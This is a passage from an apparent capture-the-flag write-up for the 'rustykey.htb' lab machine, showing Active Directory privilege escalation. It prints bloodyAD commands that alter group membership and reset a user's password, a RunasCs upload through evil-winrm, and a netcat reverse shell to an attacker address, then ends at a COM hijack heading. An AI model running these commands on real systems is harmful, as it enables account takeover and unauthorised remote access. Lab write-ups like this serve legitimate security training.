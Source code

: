 ## Privelege Escalation

The next step is to pivot to the user `EE.REED` who is a member of the **SUPPORT** group. We cannot directly logon to __EE.REED__ account as it is restricted. For this, let's change the password of __EE.REED__.

```
bloodyAD -d rustykey.htb -u IT-COMPUTER3 -p 'Rusty88!' -k --host dc.rustykey.htb add groupMember 'HELPDESK' 'IT-COMPUTER3$'
bloodyAD -d rustykey.htb -u IT-COMPUTER3 -p 'Rusty88!' -k --host dc.rustykey.htb remove groupMember 'PROTECTED OBJECTS' SUPPORT
bloodyAD -d rustykey.htb -u IT-COMPUTER3 -p 'Rusty88!' -k --host dc.rustykey.htb set password 'EE.REED' 'cocoRocks@1'
```

Then, we upload `RunasCs.exe` through `evil-winrm` and obtain a reverse shell through `netcat` on our host machine.
```
rlwrap nc -lvnp 4446
```
```
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> upload RunasCs.exe
Info: Upload successful!
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> .\RunasCs.exe ee.reed cocoRocks@1 powershell.exe -r 10.10.16.6:4446
```

### EE.REED
As EE.REED, we first go on to search all zip related entries in the registry.
```
reg query HKCR\CLSID /s /f "zip"
```

This reveals the entries for 7zip.

![Regitry entries](./reg-entry.png)

### COM Hijack + RBCD
